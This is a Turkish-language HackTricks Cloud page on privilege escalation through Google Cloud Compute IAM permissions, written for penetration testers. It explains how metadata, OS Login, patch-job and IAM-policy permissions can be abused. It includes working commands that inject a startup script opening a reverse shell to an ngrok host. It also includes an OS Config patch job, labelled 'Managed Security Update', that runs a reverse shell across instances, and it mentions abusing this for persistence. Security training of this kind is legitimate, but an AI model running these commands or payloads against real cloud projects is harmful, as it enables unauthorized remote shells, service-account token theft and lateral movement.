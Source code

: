 # GCP - Compute Privesc

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**Abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 Discord grubuna** [**katılın**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **HackTricks'e PR göndererek hacking ipuçlarını paylaşın** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına.

</details>
{% endhint %}

## Compute

GCP'de Compute ve VPC (ağ) hakkında daha fazla bilgi için:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
Örneğin yeni kullanıcılar ve SSH anahtarları eklemek gibi, instance'ın metadata'sını değiştirmeyi gerektiren tüm ayrıcalık yükseltme saldırılarını gerçekleştirmek için, **instance'a bağlı SA üzerinde `actAs` izinlerine sahip olmanız gerektiğini** unutmayın, SA zaten bağlı olsa bile!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

Bu izinle, bir **instance'ın** **metadata** bilgilerini **değiştirebilir** ve bir kullanıcının **yetkili anahtarlarını** değiştirebilir veya **sudo** izinlerine sahip yeni bir kullanıcı **oluşturabilirsiniz**. Bu nedenle, herhangi bir VM instance'ına SSH ile bağlanabilir ve Instance'ın çalıştığı GCP Service Account'u çalabilirsiniz.\
Sınırlamalar:

* VM instance'larında çalışan GCP Service Account'ların varsayılan olarak **çok sınırlı bir kapsamı** olduğunu unutmayın
* Giriş yapmak için **SSH** sunucusuna **erişebilmeniz** gerekecek

Bu izni nasıl kullanacağınız hakkında daha fazla bilgi için:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

Bu saldırıyı yeni bir startup-script ekleyip instance'ı yeniden başlatarak da gerçekleştirebilirsiniz:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

Bu izin, **önceki izinle aynı ayrıcalıkları** sağlar, ancak tüm proje yerine belirli bir instance üzerinde geçerlidir. **Önceki bölümdeki aynı exploitler ve sınırlamalar geçerlidir**.

### `compute.instances.setIamPolicy`

Bu tür bir izin, **önceki izinlerle kendinize bir rol vermenize** ve bunları kötüye kullanarak ayrıcalıkları yükseltmenize olanak tanır.

### **`compute.instances.osLogin`**

Eğer **OSLogin instance'da etkinse**, bu izinle sadece **`gcloud compute ssh [INSTANCE]`** komutunu çalıştırarak instance'a bağlanabilirsiniz. Instance içinde **root ayrıcalıklarına sahip olmayacaksınız**.

{% hint style="success" %}
Bu izinle VM instance'a başarılı bir şekilde giriş yapabilmek için, VM'ye bağlı SA üzerinde `iam.serviceAccounts.actAs` iznine sahip olmanız gerekir.
{% endhint %}

### **`compute.instances.osAdminLogin`**

Eğer **OSLogin instance'da etkinse**, bu izinle sadece **`gcloud compute ssh [INSTANCE]`** komutunu çalıştırarak instance'a bağlanabilirsiniz. Instance içinde **root ayrıcalıklarına sahip olacaksınız**.

{% hint style="success" %}
Bu izinle VM instance'a başarılı bir şekilde giriş yapabilmek için, VM'ye bağlı SA üzerinde `iam.serviceAccounts.actAs` iznine sahip olmanız gerekir.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

Bir hizmet hesabı atanmış bir sanal makine oluşturmak ve hizmet hesabının token'ını metadata'ya erişerek çalmak ve ayrıcalıkları yükseltmek mümkündür.

Bu yöntem için exploit scripti [burada](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py) bulunabilir.

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

Eğer **`osconfig.patchDeployments.create`** veya **`osconfig.patchJobs.exec`** izinlerine sahipseniz, bir [**patch job veya deployment**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching) oluşturabilirsiniz. Bu, ortamda yanal hareket etmenizi ve bir projedeki tüm compute instance'larda kod yürütmenizi sağlar.

Şu anda, instance'a bağlı SA üzerinde **`astAs` iznine ihtiyacınız yok**.

Bunu manuel olarak exploit etmek isterseniz, ya bir [**patch job**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json) **ya da** [**deployment**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json) oluşturmanız gerekecektir.\
Bir patch job çalıştırmak için:

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

Bir yama dağıtımı yapmak için:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
The tool [patchy](https://github.com/rek7/patchy) could been used in the past for exploiting this misconfiguration (but now it's not working).

**Bir saldırgan bu durumu kalıcılık için de kötüye kullanabilir.**

### `compute.machineImages.setIamPolicy`

**Kendinize ekstra izinler verin** compute Image için.

### `compute.snapshots.setIamPolicy`

**Kendinize ekstra izinler verin** bir disk snapshot için.

### `compute.disks.setIamPolicy`

**Kendinize ekstra izinler verin** bir disk için.

### Access Scopes'u Atlatma

Bu bağlantıyı takip ederek bazı [**access scopes'u atlatma fikirleri**](../) bulabilirsiniz.

### GCP Compute instance'da Yerel Yetki Yükseltme

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## Referanslar

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 Discord grubuna** [**katılın**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'ı takip edin.**
* **HackTricks'e** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına PR göndererek **hacking ipuçlarını paylaşın.**

</details>
{% endhint %}
